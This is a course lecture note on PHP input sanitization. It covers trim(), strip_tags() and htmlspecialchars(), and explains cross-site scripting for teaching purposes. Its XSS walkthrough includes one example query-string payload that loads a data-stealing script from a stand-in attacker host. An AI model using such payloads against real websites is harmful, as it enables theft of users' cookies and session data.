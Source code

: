 ```yaml
---
title: PHP - Sanitization
course: SDEV255
---
```


- [Sanitization](#sanitization)
  - [Validation vs Sanitization](#validation-vs-sanitization)
  - [Purpose of Sanitization](#purpose-of-sanitization)
  - [Removing Unwanted Values](#removing-unwanted-values)
    - [trim()](#trim)
    - [strip\_tags()](#strip_tags)
  - [Escaping Values](#escaping-values)
    - [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
      - [How XSS Works](#how-xss-works)
      - [XSS Example](#xss-example)
    - [htmlspecialchars()](#htmlspecialchars)
  - [Topics for Later](#topics-for-later)

# Sanitization

## Validation vs Sanitization

**Validation** - is the process of ensuring that the input matches the expected format, range, type, length, etc.

**Sanitization** - is the process of removing unwanted characters, whitespace, HTML tags, etc.

## Purpose of Sanitization

- Prevents malicious code from being injected into application
- Prevents unwanted characters from being
  - Displayed to the user
  - Stored in database
  - Stored in files
  - Sent to other applications

## Removing Unwanted Values

### trim()

- Removes whitespace from beginning and end of a string
- May optionally specify which characters to remove

```php
$cleanedInput = trim($userInput);
```

### strip_tags()

- Removes HTML tags from a string
- May optionally specify which tags to allow

```php
$cleanedInput = strip_tags($userInput);
```

## Escaping Values

**Escaping** - is the process of converting special characters to their HTML entity equivalents.

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** - is a type of injection attack where malicious scripts are injected into trusted websites.

The scripts may then:

- Steal cookies and session tokens
- Redirect the user to another website
- Send content to other applications

#### How XSS Works

1. Hacker visits a website and probes for query string vulnerabilities.

~~fig(40){images/hacker.jpg}

2. Hacker finds query string named `q` is not sanitized.

3. Hacker tricks other people into visiting website with following query string: `q=<script src=http://really-terrible-site/steal-data.js></script>`

4. JS file runs on victim's browser and sends data to hacker's website.

5. Hacker sells data on the dark web and buys yacht.

~~fig(40){https://media.boatsnews.com/src/images/news/articles/ima-computer-science-screen-37738.webp}

#### XSS Example

<p class="demo">Walkthrough</p>

[Text: Example of an XSS Attack](http://localhost/phpbook/section_b/c06/)

### htmlspecialchars()

- Converts special characters to HTML entities
- May optionally specify which characters to convert and the character encoding

```php
$input = '<script>alert("XSS");</script>';
<p><?php echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8'); ?></p
```

## Topics for Later

We have not covered these yet, but santization is also important for:

- Database queries
- File uploads
